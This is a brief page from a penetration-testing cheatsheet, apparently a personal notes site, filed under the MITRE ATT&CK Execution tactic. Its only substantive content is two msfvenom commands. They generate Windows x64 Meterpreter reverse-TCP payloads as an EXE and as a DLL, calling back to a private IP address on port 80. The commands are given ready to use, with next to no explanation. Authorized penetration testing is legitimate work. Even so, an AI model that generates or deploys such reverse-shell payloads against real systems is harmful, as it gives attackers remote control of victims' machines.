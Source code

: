 ```yaml
---
layout: post
title: TA0002 Execution
category: Pentesting
parent: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-02-15
permalink: /pen/build-payload
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [Build System Interpreters - MSFvenom](#BuildSystemInterpreters-MSFvenom)
* [EXEC Python](#EXECPython)
	* [](#)
	* [EXEC Powershell](#EXECPowershell)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='BuildSystemInterpreters-MSFvenom'></a>build-interpreter-msfvenom
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```